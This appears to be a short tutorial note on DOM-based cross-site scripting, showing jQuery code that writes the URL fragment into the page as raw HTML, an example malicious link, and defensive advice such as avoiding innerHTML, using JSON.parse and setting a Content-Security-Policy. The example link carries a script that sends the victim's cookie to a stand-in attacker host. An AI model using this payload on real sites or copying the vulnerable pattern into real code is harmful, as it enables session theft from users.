 # DOM Based XSS

When application use URI fragments (after the # sign) to control, for example location:
```
www.chinterest.com#1
```

The browser content is controlled  and loaded into the DOM as raw HTML:
```JavaScript
$(document).onload(function() {
	var page = window.location.hash;
	loadPage(page);

	$("#page-no").html(page);
});
```

Attacker can construct malicious URL:
```
www.chinterest.com#<script>window.location"http://haxxed.com?cookie="+document.cookie</script>
```

When a user clicks the above link he/she is redirected and his cookie for chinterest is stored in the hacker’s website.

## Protection
* use a JavaScript framework
* Audit your code carefully
* parse JSON carefully
* Detect unsafe code using development tools
* Don’t use URI fragments
* Content-security policy

### Frameworks
Use Angular, React, Ember;

### Audit
Avoid the following properties and functions:
* innerHTML
* outerHTML
* document.write

Set the text within tags whenever possible:
* innerText
* textContent

### Parse JSON
Do not convert parsed JSON into JavaScript objects. Instead of using `eval(…)`, use `JSON.parse(…)`.

### DevTools
Chrome plug-in that can identify insecure practices in client-side code: [domsnitch]

### Don’t do URI fragments
Write a unit test case to look for `window.location.hash`. You don’t need it.

### Content-Security-Policy
```
Content-Security-Policy: script-src 'self' https://apis.google.com

Content-Security-Policy-Report-Only: script-src 'self'; report-uri http://example.com/csr-reports
```